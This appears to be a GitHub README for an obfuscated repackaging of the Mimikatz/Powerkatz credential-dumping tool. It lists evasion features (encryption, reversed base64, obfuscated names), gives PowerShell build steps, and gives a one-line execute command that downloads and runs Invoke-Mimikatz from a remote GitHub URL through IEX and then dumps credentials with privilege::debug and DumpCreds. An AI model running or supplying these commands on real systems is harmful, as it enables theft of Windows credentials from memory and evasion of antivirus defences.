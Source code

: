 ### Change Log


- New Powercatz.dll (32bit & 64bit)
- Compressed and encrypted with random iterations
- base64 then reversed
- Obfuscated functions, variables and parameters


### BUILD

```Powershell
cd $env:UserProfile\Desktop\Powerkatz
Import-Module .\Invoke-UpdateMimikatzScript.ps1 
Invoke-UpdateMimikatzScript -DllPath $env:UserProfile\Desktop\Powerkatz\x64\powerkatz.dll -ScriptPath $env:UserProfile\Desktop\Powerkatz\Invoke-Mimikatz.ps1
Invoke-UpdateMimikatzScript -DllPath $env:UserProfile\Desktop\Powerkatz\win32\powerkatz.dll -ScriptPath $env:UserProfile\Desktop\Powerkatz\Invoke-Mimikatz.ps1
```

### EXECUTE

```PowerShell
# Execute
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/idratherbestealing/mimikatz/main/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```
